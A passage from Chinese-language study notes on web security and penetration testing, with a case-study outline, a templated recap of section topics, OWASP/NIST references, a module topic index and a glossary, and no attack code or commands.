需求：为 Web 应用建立安全基线并验证。
方案：OWASP Top 10 对照加固 + 扫描 + 渗透测试。
要点：输入输出编码、CSP、认证加固、日志告警。
验证：漏扫报告清零高危、红队演练、事件响应演练。

### 9.1 案例的扩展讨论

把案例中的方案放大到真实规模，需要额外考虑三个问题：

第一，规模：当数据量或并发量上升一个数量级时，原方案中的数据结构、缓存策略与任务调度是否仍然成立？通常需要引入分层与异步。

第二，团队：多人协作时，模块边界、接口契约与代码所有权必须明确；案例中的实现应拆分为可独立测试的单元，并配合文档说明设计意图。

第三，演进：上线后的需求变化不可避免；方案设计时应预留扩展点（配置化、插件化、事件化），并定期用真实指标验证假设。


案例研究的学习方法：先独立阅读需求，尝试在脑中形成方案，再对照实现与讲解，最后思考“如果约束变化（数据量、并发、团队规模），方案应如何调整”。

## 10. 知识要点总结与深入讲解

本节以讲解形式汇总全文要点，替代传统的习题与自测，读者不需要答题，只需跟随解释建立完整的认知框架。

关于《Web安全与渗透测试》的核心结论：

安全是设计出来的，不是事后补救。
OWASP Top 10 与 CIA 模型是入门主线。
纵深防御 + 最小权限 + 持续验证构成现代基线。

原文档各小节的要点回顾：

- 1. OWASP Top 10：该小节围绕Web安全与渗透测试展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 2. SQL 注入：该小节围绕Web安全与渗透测试展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 3. XSS 跨站脚本：该小节围绕Web安全与渗透测试展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 4. CSRF 跨站请求伪造：该小节围绕Web安全与渗透测试展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 5. 文件上传漏洞：该小节围绕Web安全与渗透测试展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 6. 命令执行漏洞：该小节围绕Web安全与渗透测试展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 7. 渗透测试流程：该小节围绕Web安全与渗透测试展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 8. Nmap 端口扫描：该小节围绕Web安全与渗透测试展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 9. Burp Suite 漏洞扫描：该小节围绕Web安全与渗透测试展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 信息收集：该小节围绕Web安全与渗透测试展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 端口扫描：该小节围绕Web安全与渗透测试展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 服务枚举：该小节围绕Web安全与渗透测试展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- Web 应用测试：该小节围绕Web安全与渗透测试展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 漏洞利用：该小节围绕Web安全与渗透测试展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 密码破解：该小节围绕Web安全与渗透测试展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 后渗透操作：该小节围绕Web安全与渗透测试展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 权限提升：该小节围绕Web安全与渗透测试展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 内网渗透：该小节围绕Web安全与渗透测试展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。
- 报告生成：该小节围绕Web安全与渗透测试展开具体细节，阅读时应关注其与核心结论的对应关系；每个小节都是核心结论在某一个侧面的展开。

把以上要点与第 3-9 节的内容对照复习，即可完成对本文主题的闭环学习。

## 11. 参考文献


OWASP Top 10：https://owasp.org/www-project-top-ten/
OWASP Cheat Sheets：https://cheatsheetseries.owasp.org/
NIST 网络安全框架：https://www.nist.gov/cyberframework
CWE 数据库：https://cwe.mitre.org/
PortSwigger Web Security Academy：https://portswigger.net/web-security

## 12. 延伸阅读


密码学与证书，见 033-cybersecurity 模块文档。
Web 攻击与防御，见 033-cybersecurity 模块相关文档。
网络层安全，见 032-networking 模块。
黑马程序员 Bilibili 空间（https://space.bilibili.com/37974444 ）提供网络安全课程。

## 14. 模块知识图谱与学习路径

本文属于 网络安全 模块。为了把《Web安全与渗透测试》放入完整的知识网络，下面列出本模块的全部主题并给出相互关联的导读。学习时建议按模块内顺序推进，并在每个文档中留意交叉引用。



上图为模块主题的推荐学习顺序示意图（仅展示前若干主题）。各主题之间存在三类关联：

第一，前置依赖关系：早期主题是后期主题的基础，例如环境与语法先行、进阶主题随后；

第二，横向并列关系：同一层级主题从不同角度覆盖模块能力，学习顺序可以按兴趣调整；

第三，工程组合关系：多个主题在真实项目中组合使用，例如配置、性能与安全主题往往出现在同一系统的不同层面。

### 14.1 模块主题速查表

| 文档 | 主题 | 与本文的关联 |
| --- | --- | --- |
| 安全基础与防御 | 001-SecurityBasicsDefense | 本文的前置基础 |
| Web安全与渗透测试 | 002-WebSecurityPenetrationTesting | 本文自身 |
| 二进制安全与应急响应 | 003-BinarySecurityAndIncidentResponse | 本文的安全延伸 |
| 安全工具与实战 | 004-SecurityToolsPractice | 本文的综合应用 |
| XSS攻击 | 005-XSSAttack | 本文的并列主题 |
| 安全模型与框架 | 006-SecurityModelFramework | 本文的安全延伸 |
| CSRF攻击 | 007-CSRFAttack | 本文的并列主题 |
| 密码学应用 | 008-CryptographyApplication | 本文的并列主题 |
| Web安全深度 | 009-WebSecurityDeep | 本文的安全延伸 |
| 安全运营中心 | 010-SOC | 本文的安全延伸 |
| SSRF攻击 | 011-SSRFAttack | 本文的并列主题 |
| 恶意代码分析 | 012-MalwareAnalysis | 本文的并列主题 |
| 云安全 | 013-CloudSecurity | 本文的安全延伸 |
| 对称加密 | 014-SymmetricEncryption | 本文的安全延伸 |
| 应急响应 | 015-IncidentResponse | 本文的并列主题 |
| 非对称加密 | 016-AsymmetricEncryption | 本文的安全延伸 |
| 哈希算法 | 017-HashAlgorithm | 本文的并列主题 |
| 安全开发 | 018-SecureDevelopment | 本文的安全延伸 |
| 合规与审计 | 019-ComplianceAudit | 本文的并列主题 |
| 数字证书 | 020-DigitalCertificate | 本文的并列主题 |
| HTTPS原理 | 021-HTTPSPrinciple | 本文的原理深化 |
| 渗透测试方法论 | 022-PenetrationTestingMethodology | 本文的并列主题 |
| 信息收集 | 023-InformationGathering | 本文的并列主题 |
| 漏洞扫描 | 024-VulnerabilityScan | 本文的并列主题 |
| 安全编码原则 | 025-SecureCodingPrinciples | 本文的安全延伸 |
| 输入验证 | 026-InputValidation | 本文的并列主题 |
| 认证与授权 | 027-AuthenticationAuthorization | 本文的并列主题 |
| OWASP-Top-10详解 | 028-OWASPTop10Detailed | 本文的并列主题 |
| XXE攻击 | 029-XXEAttack | 本文的并列主题 |
| 反序列化漏洞 | 030-DeserializationVulnerability | 本文的并列主题 |
| 零信任架构 | 031-ZeroTrustArchitecture | 本文的原理深化 |
| 身份与访问管理 | 032-IdentityAccessManagement | 本文的并列主题 |
| 安全基线 | 033-SecurityBaseline | 本文的安全延伸 |
| 漏洞扫描工具 | 034-VulnerabilityScanTools | 本文的并列主题 |
| WAF规则 | 035-WAFRule | 本文的并列主题 |
| Cybersecurity OpenSSL 证书管理 | 036-OpenSSLCert | 本文的并列主题 |
| Cybersecurity OpenSSL 加密解密 | 037-OpenSSLEncrypt | 本文的安全延伸 |
| Cybersecurity nmap 端口扫描 | 038-NmapScan | 本文的并列主题 |
| Cybersecurity 哈希工具 | 039-HashTools | 本文的并列主题 |
| Cybersecurity hashcat 密码破解 | 040-Hashcat | 本文的并列主题 |
| Cybersecurity GPG 加密与签名 | 041-GPGEncrypt | 本文的安全延伸 |
| Cybersecurity SSH 密钥管理 | 042-SSHKeys | 本文的并列主题 |
| Cybersecurity 密码哈希 | 043-PasswordHash | 本文的并列主题 |
| Cybersecurity SQL 注入检测与防御 | 044-SQLInjection | 本文的并列主题 |
| Cybersecurity XSS 防御 | 045-XSSDefense | 本文的并列主题 |
| Cybersecurity CSRF 防御命令与配置 | 046-CSRFDefense | 本文的并列主题 |
| Cybersecurity XXE 防御与检测 | 047-XXEDefense | 本文的并列主题 |
| Cybersecurity 命令注入防御与检测 | 048-CommandInjection | 本文的并列主题 |
| Cybersecurity OAuth2/OIDC 配置命令 | 049-OAuth2OIDC | 本文的并列主题 |
| Cybersecurity 防火墙配置(ufw/firewalld) | 050-FirewallConfig | 本文的并列主题 |
| Cybersecurity IDS/IPS 命令(Suricata/Snort) | 051-IDSIPSCommands | 本文的并列主题 |
| Cybersecurity Metasploit 命令(渗透测试) | 052-MetasploitCommands | 本文的并列主题 |
| Cybersecurity Burp Suite 命令行 | 053-BurpSuiteCLI | 本文的并列主题 |
| Cybersecurity Nikto Web 扫描 | 054-NiktoScan | 本文的并列主题 |
| Cybersecurity OpenVAS 漏洞扫描 | 055-OpenVASCommands | 本文的并列主题 |
| Cybersecurity SELinux/AppArmor 强制访问控制 | 056-SELinuxAppArmor | 本文的并列主题 |
| Cybersecurity AIDE 文件完整性检查 | 057-AIDEFileIntegrity | 本文的并列主题 |
| Cybersecurity auditd 审计命令 | 058-AuditdCommands | 本文的并列主题 |
| Cybersecurity 隐写术工具命令 | 059-SteganographyTools | 本文的并列主题 |
| Cybersecurity 逆向工程命令(radare2/ghidra CLI) | 060-ReverseEngineering | 本文的并列主题 |

速查表的作用是让读者快速判断：哪些文档应在阅读本文前掌握（前置基础），哪些文档应在阅读本文后继续（延伸主题）。本模块的交叉引用体系即以此表为基础。

## 15. 术语表

下表整理《Web安全与渗透测试》及 网络安全 模块中出现的高频术语，给出简明释义。术语按字母序或逻辑序排列，供查阅。

| 术语 | 释义 |
| --- | --- |
| 密码学基础 | 对称加密（AES）、非对称（RSA/ECC）、哈希（SHA-2/3）、HMAC；密码学是加密、签名与认证的地基。 |
| 认证与授权 | 口令哈希（bcrypt/argon2）、MFA、Session/JWT、OAuth 2.0/OIDC、RBAC/ABAC。 |
| Web 攻击面 | 注入（SQL/XSS）、CSRF、SSRF、文件上传、反序列化；防御（输入校验、输出编码、CSP、SameSite）。 |
| 渗透测试流程 | 信息收集 -> 漏洞扫描 -> 利用 -> 提权 -> 横向 -> 报告；工具（Nmap、Burp、Metasploit）。 |
| 弱口令（易错点） | 参见常见陷阱章节的详细讲解 |
| SQL 注入（易错点） | 参见常见陷阱章节的详细讲解 |
| XSS 未过滤（易错点） | 参见常见陷阱章节的详细讲解 |
| 敏感信息泄露（易错点） | 参见常见陷阱章节的详细讲解 |
| 依赖漏洞（易错点） | 参见常见陷阱章节的详细讲解 |
| 权限过度（易错点） | 参见常见陷阱章节的详细讲解 |

术语表与正文配合使用：先通读正文，遇到模糊术语回查本表；长期使用后术语会自然进入工作记忆。
